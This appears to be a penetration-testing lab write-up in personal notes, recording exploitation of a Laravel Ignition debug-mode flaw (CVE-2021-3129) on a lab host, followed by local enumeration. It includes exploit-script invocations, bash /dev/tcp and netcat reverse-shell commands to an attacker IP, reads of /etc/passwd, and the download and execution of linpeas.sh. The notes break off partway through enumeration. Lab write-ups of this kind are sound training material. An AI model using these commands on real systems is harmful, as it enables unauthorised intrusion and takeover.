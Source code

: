 ![[Pasted image 20241010200759.png]]
---
# Exploitation
## Name of the technique
- Clicked "Enable" to enable debugging
![[Pasted image 20241010202820.png]]
- Tested access to `http://192.168.201.38/_ignition/execute-solution` to confirm debug mode in ON and determine Laravel root directory is `/var/www/html/lavita`
![[Pasted image 20241010205327.png]]
- Identified `laravel-8.4.2-rce` exploit from `https://github.com/khanhnv-2091/laravel-8.4.2-rce/blob/main/exploit.py`
	- Saved `exploit.py` as `laravelexploit.py` and ran `python3 laravelexploit.py http://192.168.201.38:80 /var/www/html/laravel/storage/logs/laravel.log 'uname -a'`
![[Pasted image 20241010203951.png]]
- Identified `CVE-2021-3129` exploit from `https://github.com/joshuavanderpoll/CVE-2021-3129/blob/main/CVE-2021-3129.py`
	- Saved `CVE-2021-3129.py` and ran `python3 CVE-2021-3129.py --host http://192.168.201.38 --exec 'uname -a' --force
![[Pasted image 20241010210303.png]]
![[Pasted image 20241010210346.png]]
- Reran exploit with bash command for reverse shell but received no output or reverse shell: `python3 CVE-2021-3129.py --host http://192.168.201.38 --exec 'bash -i >& /dev/tcp/192.168.45.215/4444 0>&1' --force`
![[Pasted image 20241010210606.png]]
- Reran exploit with netcat command for reverse shell but no output and no reverse shell: 
```
python3 CVE-2021-3129.py --host http://192.168.117.38
execute nc 192.168.45.250 4444 -e /bin/sh
```
- Reran exploit with same command but testing the next chain
![[Pasted image 20241011191852.png]]
- Command above hung, and checked other tab to find incoming reverse shell 
![[Pasted image 20241011192016.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /etc/passwd` and identified user `skunk`
![[Pasted image 20241011192138.png]]
- Navigated to `/home/skunk`, identified `local.txt`, and printed file with `cat /home/skunk/local.txt`
![[Pasted image 20241011192557.png]]
- Navigated to `/var/www/html/lavita/storage`, ran `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh` to download `linpeas.sh`, and used `chmod +x linpeas.sh` to make it executable
![[Pasted image 20241011193123.png]]
- Ran `./linpeas.sh` and identified multiple processes belonging to `www-data` but user is `root`
![[Pasted image 20241011193436.png]]
- Identified `ptrace` protection is *disabled*
![[Pasted image 20241011193641.png]]
- Identified user `skunk` is a member of `sudo`